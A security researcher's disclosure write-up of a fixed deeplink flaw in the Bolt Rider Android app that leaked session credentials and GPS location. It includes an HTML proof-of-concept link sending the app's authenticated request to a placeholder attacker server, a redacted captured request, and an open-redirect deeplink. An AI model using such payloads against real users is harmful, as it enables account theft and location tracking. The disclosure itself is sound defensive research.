

In June 2025 I discovered a one-click (or rather, one-tap) account takeover vulnerability in the Bolt Rider app and reported it to Bolt's bug bounty program on Bugcrowd. In addition to account takeover this also reveals the exact current location of the victim. This bug appears to be fixed now, although I didn't try to bypass the fix. I am disclosing the details as it's also been over a year since reporting this. Initially when I reported this it was rejected but after some explanation they deemed it as low severity and said that vulnerabilities of this type that require phishing will not be accepted in the future. While requiring one click of a link technically is "phishing", the link is entirely legitimate for the Bolt app and it still entirely compromises the account and the user's privacy. I haven't conducted further research on their program besides a cross-site scripting issue which was a duplicate.
The Bolt Rider app for Android exposed a deeplink handler that took a URL from the deeplink itself and sent an authenticated POST request to it. Because the request carried the logged-in user's session credentials in the Authorization header, an attacker who could get a victim to open a link received those credentials directly on their own server, enabling a full account takeover from a single click in a mobile browser. This request also placed the coordinates of the user in the URL parameters, revealing their location instantly.
Account takeover is usually discussed as a web problem, such as a broken password reset, a leaked token in a redirect. None of that is required here. The entire chain lives on the device, in the Android app, and the backend is not really even interacted with during this attack.
The vulnerable code is exposed by ordinary functionality on Android, components that the app exports for other apps to interact with. Activities are the most relevant component here as they can have deeplink schemes registered in the manifest. Any exported component is reachable by any other app on the device, and a custom scheme in a browsable intent filter can be reached through a link click in a browser. Any app can just launch it freely with no user interaction as well, so there are multiple ways to reach the vulnerability. An app also keeps the user's credentials on the device and sometimes attaches them automatically: a session token, a cookie jar, or an Authorization header injected by an HTTP client to an outgoing request. This should be mitigated by always keying credentials by domain and allowing only trusted domains.
Put those together and a vulnerability appears purely on Android. If an exposed component takes a URL, a host, or a path from attacker-controlled input and feeds it to the authenticated HTTP client, the app authenticates a request on the user's behalf and delivers it to the host determined by the attacker. Similar issues can exist in client-side code in web browsers, but browsers have a lot of inbuilt security controls related to session handling which help prevent such issues.
Besides attaching credentials, the app might attach any other sensitive data to requests. Android apps usually have access to a lot of private data which browsers do not need, such as the exact location of the user.
I started research on this app by investigating the different components in the Android manifest. There were clearly deeplinks being used in this app, so I focused on investigating those as they enable the app to be attacked fully remotely. I used Jadx to decompile the application and to look at the deeplink handling logic. Nowadays I would not do this manually but use Oversecured, which is able to track the data flow automatically. At first, I was just exploring the different deeplinks and what they do, instead of specifically looking for a way to do an account takeover. Eventually, I stumbled upon blocksModal, a component which seems to load content blocks, but more importantly it was parsing JSON from the deeplink. This already indicates that a lot of data can be inserted by an attacker, usually JSON is used if the data is at least somewhat complex and it's structure can vary. In this case the functionality is used to load remote content based on what link was opened.
I then inspected the code for the exact JSON parameters and objects that are parsed, and there seemed to be a path object. Attacker-controlled paths have big potential, so I decided to try to get out-of-band request from the app, which would not be a big vulnerability in itself but would give me a good starting point to work with. An out-of-band request just means that the app makes a request to a domain controlled by the attacker, but doesn't leak any data. I tried this by constructing the correctly structured JSON with a server that I was monitoring. To my surprise I received an authenticated request instead of a plain unauthenticated one, enabling account takeover.
Putting it together: The app registers a deeplink of the form bolt://action/blocksModal. That handler accepts a postRequest parameter containing a JSON object with a path and a body, and issues a POST request with the given body to path using the app's authenticated HTTP client.
The path value is never validated against a whitelist of trusted hosts, so it can point to a server that the attacker controls. The request is always sent with the user's session credentials attached, so the attacker's server receives the request with the credentials attached.
Since deeplinks are accessible from the browser, no other app needs to be installed on the device and no user interaction beyond a single tap is required. Requests like this should only ever be made to validated, trusted URLs.
Triggering it can be done for example at a malicious web page, although the link can be posted anywhere. Here is a web page that I created the proof of concept on, with the receiving malicious server as the path:
<html>
<body>
<a href='bolt://action/blocksModal?postRequest={"path":"https://<ATTACKER-SERVER>","body":{"poc":"test"}}'>poc</a>
</body>
</html>A victim then opens that page on a browser, for example Chrome on an Android device with Bolt Rider installed, and clicks the link. Depending on the browser, the link tap might not be required. The app comes to the foreground, fires off the request, and shows an error when the response is not what it expected. By then the request has already arrived at the attacker's server, credentials included. From the victim's point of view a link failed to open something, so there is no indication that the app has leaked their credentials and location, they will not even think about that.
Below is the request as it arrives on the attacker's server. I used my own account so I redacted the details. The exact location of my apartment was also exposed in the URL query parameters with GPS latitude and GPS longitude with 13 meter accuracy.
POST /?version=CA.163.0&deviceId=dKfej6WGTTOCBlN1******&device_name=*********&device_os_version=15&channel=googleplay&brand=bolt&deviceType=android&signup_session_id&country=fi&is_local_authentication_available=true&language=fi&gps_lat=******&gps_lng=******&gps_accuracy_m=13.306&gps_age=0&user_id=13115****&session_id=1311*****u17************&distinct_id=client-1311******&rh_session_id=1311******u17******** HTTP/1.1
Authorization: Basic dWlk**********************************************************************
sentry-trace: 3d1de896fed846b19e8575cc68b09167-e89bef0426b2464e-0
baggage: sentry-environment=production,sentry-public_key=fb5f34fc26a081ff4100b68d3c9c1a42,sentry-release=ee.mtakso.client%40CA.163.0%2B3340,sentry-sample_rate=0,sentry-sampled=false,sentry-trace_id=3d1de896fed846b19e8575cc68b09167,sentry-transaction=RideHailingMapActivity
Content-Type: application/json; charset=UTF-8
Content-Length: 18
Host: <MY-SERVER>
Connection: Keep-Alive
Accept-Encoding: gzip
User-Agent: okhttp/4.12.0
{"poc":"test"}
Decoding the Base64 in the Authorization header yields the authentication UID and secret:
uid_1311*****:abbf1627-****-****-****-************Note that the query string alone already leaks the user ID, session identifiers, device details and the device's GPS coordinates, before the credentials in the header are even considered.
The result is a full account takeover. The attacker obtains the victim's session credentials and can use them to act as that user against Bolt's API. I didn't escalate this to credit card details theft, but if that is tied to your account, it's likely possible to spam false payments on the app.
I also discovered an open redirect in the app which also allows arbitrary JavaScript to be executed in the app WebView. The WebView is a browser-like component in the app which usually does restrict cookies by domain. Thus running arbitrary JavaScript on an untrusted domain isn't a massive risk. Some apps do define WebView JS bridges so it would be possible to access internal functionality from any web page, but I didn't research this app that deeply (as an account takeover was already deemed low severity, I didn't want to spend a ton of time on this). The main impact is similar to web open redirect, where the user thinks that a website can be trusted because another trusted website redirected them to it. I believe here the impact is higher than in web, because the wrong domain is not displayed anywhere, the page just looks like part of the app, so a user is likely to trust it. This finding was a duplicate.
Here is an example of Bugcrowd's main page opened within the app, which is what I used as an example in the report.
<a href=bolt://action/openBrowser?url=https://bugcrowd.com>poc</a>
Both of these bugs come down to the same thing: a domain that arrived from outside the app was used without being checked. Domain validation on the backend does not help, it needs to happen in the app also.